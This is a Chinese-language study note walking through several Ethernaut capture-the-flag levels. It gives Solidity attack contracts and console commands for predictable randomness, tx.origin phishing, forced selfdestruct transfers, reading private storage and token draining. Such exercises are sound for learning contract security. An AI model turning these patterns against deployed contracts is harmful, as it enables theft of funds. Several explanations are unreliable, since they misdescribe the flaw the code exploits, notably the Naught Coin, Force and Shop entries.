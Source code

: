 ### Ethernautu遊戲學習重點:

* 安全問題
* 涉及合約的分析
* 攻擊流程的演示



--

3. Coin Flip

隨機數用 blockhash 容易被預測而變成攻擊目標，建議使用第三方服務，像是 chainLink 來取得隨機數。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract CoinFlipAttack {
    ICoinFlip constant private target = ICoinFlip(await contract獲取的實體地址);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

```
Number(await contract.consecutiveWins())
```

![](https://i.imgur.com/OPkrhp2.png)

--

4. Telephone

在智能合約編程中，盡量不要使用 x.origin，因為它容易受到攻擊，即攻擊者可以偽造訊息，將其發送給一個合約，同時將 x.origin 偽造成另一個地址，從而騙取合約的某些權限。相反，msg.sender 更加安全，因為它不容易被攻擊者偽造。

```
pragma solidity ^0.8;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address) external;
}

contract Hack {
    constructor(address _target) {
        // tx.origin = msg.sender
        // msg.sender = address(this)
        ITelephone(_target).changeOwner(msg.sender);
    }
}
/*
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

![](https://i.imgur.com/o6HLfym.png)

--

7. Force

selfdestruct 可以讓一個合約在自我銷毀之前將其餘的以太幣發送到一個指定的地址。攻擊者可以利用合約內的漏洞，使得目標合約在執行自毀函數時，將合約餘額轉移給攻擊者控制的地址，從而實現向目標合約強制轉賬。建議避免在合約內部存儲過多的以太幣，限制自毀函數的權限等。
```
pragma solidity ^0.8;

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```

![](https://i.imgur.com/eKZUN4u.png)

--



12. privacy

以太坊在儲存時是以32 bytes為一格順序儲存的，所以定義變量的順序會影響花費Gas的多少

依32 bytes 一格，會以下劃分:

Slot 0
```
bool public locked = true;
```
Slot 1
```
uint256 public ID = block.timestamp;
```
Slot 2
```
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```
Slot 3-5
```
bytes32[3] private data;
```


```
await web3.eth.getStorageAt(instance, 5)
'0x60d11579d2e9f3002771e25ea211665c2728080663f62254aff89d7ef1ccd863'

<!-- 取0x後面的32位 -->
contract.unlock("0x60d11579d2e9f3002771e25ea211665c")

```



--

15. Naught Coin

為了防止這種漏洞，合約應該使用 SafeMath 庫來避免整數溢出攻擊。此外，合約應該在對代幣數量進行操作之前，應該先檢查操作是否合法，例如檢查代幣數量是否超過了合約的最大值。開發者還可以使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
pragma solidity ^0.8;

interface INaughtCoin {
    function player() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

// 1. Deploy
// 2. coin.approve(hack, amount)
// 3. pwn
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}
```
![](https://i.imgur.com/7iDsLJs.png)

--

21. Shop

該合約的漏洞在於，合約在購買商品時並未檢查商品的價格是否為0。合約應該在購買商品之前檢查商品的價格是否為正確的價格，也應該在購買商品時檢查付款是否等於商品價格。這些檢查可以通過實現合約中的相應函數來實現，例如在購買商品時實現一個 buyItem 函數，在其中進行價格檢查和付款檢查。此外，還可以使用 SafeMath庫來避免整數溢出攻擊，以及使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
![](https://i.imgur.com/0P00J1K.png)


